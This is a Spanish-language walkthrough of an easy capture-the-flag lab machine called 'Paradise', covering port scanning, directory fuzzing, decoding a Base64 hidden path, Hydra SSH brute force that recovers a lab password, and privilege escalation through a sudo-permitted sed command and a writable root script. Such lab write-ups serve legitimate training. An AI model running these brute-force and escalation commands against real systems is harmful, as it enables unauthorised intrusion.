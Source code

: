 # Informe de Pentesting - Máquina Paradise

* **Nombre de la máquina:** Paradise
* **Nivel de dificultad:** Fácil
* **Propósito:** Práctica de técnicas básicas de reconocimiento, enumeración, decodificación, ataque por fuerza bruta y escalada de privilegios en un entorno controlado.
![Logo](Paradise/Imagenes/Logo.png)
---

## 1. Despliegue de la Máquina

Descargamos el archivo comprimido `paradise.zip` y lo descomprimimos con:

```bash
unzip paradise.zip
```

Posteriormente, se despliega la máquina con el siguiente script:

```bash
sudo bash auto_deploy.sh paradise.tar
```

![Despliegue](/Imagenes/Despliegue.jpeg)

Confirmamos que la máquina está activa con un `ping` a la dirección IP:

```bash
ping -c 4 172.17.0.2
```

![Ping](/Imagenes/Ping.jpeg)

---

## 2. Reconocimiento de Puertos

Realizamos un escaneo completo de puertos para identificar cuáles están abiertos en la máquina:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt
```

![Puertos abiertos](/Imagenes/Puerto.jpeg)

Usamos nuestro script personalizado `extractPorts` para extraer los puertos relevantes y luego analizamos los servicios corriendo en ellos:

```bash
nmap -sC -sV -p 22,80,139,445 172.17.0.2 -oN target.txt
```

![Servicios detectados](/Imagenes/Servicios.jpeg)

---

## 3. Enumeración Web

Al acceder al navegador, encontramos una página web que sirve como punto de entrada:

![Página principal](/Imagenes/Pagina.jpeg)

Realizamos *fuzzing* con **Gobuster** para encontrar directorios ocultos:

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -add-slash -b 403,404 -x .php,.html,.txt
```

![Gobuster](/Imagenes/Gobuster.jpeg)

Estos fueron los directorios y archivos detectados:

* `/index.html`
  ![index.html](/Imagenes/indexhtml.jpeg)

* `/img`
  ![img](/Imagenes/img.jpeg)

* `/login.php`
  ![login.php](/Imagenes/loginphp.jpeg)

* `/galery.html`
  ![galery.html](/Imagenes/galeryhtml.jpeg)

* `/booking.html`
  ![booking.html](/Imagenes/booking.jpeg)

---

## 4. Análisis del Código Fuente

Al revisar el código fuente de la página, encontramos un mensaje en Base64:

```text
ZXN0b2VzdW5zZWNyZXRvCg==
```

![Base64 encontrado](/Imagenes/base64.jpeg)

Lo decodificamos en Bash:

```bash
echo "ZXN0b2VzdW5zZWNyZXRvCg==" | base64 --decode
```

El resultado fue:

```text
estoesunsecreto
```

![Decodificación](/Imagenes/descodificar.jpeg)

Probamos si esta cadena correspondía a una ruta y descubrimos un nuevo directorio oculto:

```text
http://172.17.0.2/estoesunsecreto/
```

![Directorio secreto](/Imagenes/estoesunsecreto.jpeg)

Dentro había un archivo `.txt` con un mensaje que indicaba que se debía cambiar la contraseña por ser débil. También se menciona el nombre del usuario **lucas**, lo que sugiere que podría ser un usuario válido en el sistema.

![Usuario lucas](/Imagenes/lucas.jpeg)

---

## 5. Fuerza Bruta con Hydra

Probamos con fuerza bruta utilizando **Hydra** para intentar acceder vía SSH como el usuario *lucas*.

```bash
hydra -l lucas -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

Encontramos la contraseña:

```text
lucas : chocolate
```

![Hydra resultado](/Imagenes/hydra.jpeg)

---

## 6. Escalada de Privilegios a Usuario Andy

Una vez dentro como lucas vía SSH:

```bash
ssh lucas@172.17.0.2
```

![SSH acceso](/Imagenes/ssh.jpeg)

Descubrimos que lucas puede ejecutar el comando `/bin/sed` como el usuario andy sin necesidad de contraseña (NOPASSWD):

```bash
sudo -l
```

Aprovechamos esto para escalar privilegios a andy:

```bash
sudo -u andy /bin/sed -n '1e exec /bin/bash' /etc/hosts
```

![Escalada a andy](/Imagenes/escala.jpeg)

---

## 7. Escalada de Privilegios a Root

Buscamos archivos que sean modificables por andy y que puedan ser ejecutados con privilegios de root:

```bash
find / -writable -user andy 2>/dev/null
```

Encontramos el script: `/usr/local/bin/privileged_exec`

Lo editamos y luego lo ejecutamos, lo que nos otorgó acceso como root.

![Escalada final](/Imagenes/escala2.jpeg)

---

## 8. Conclusión

Esta máquina nos permitió practicar técnicas esenciales como:

* Escaneo y enumeración de servicios.
* Fuzzing de directorios.
* Decodificación de información oculta.
* Ataques por fuerza bruta.
* Escalada de privilegios con uso de binarios vulnerables y análisis de permisos.
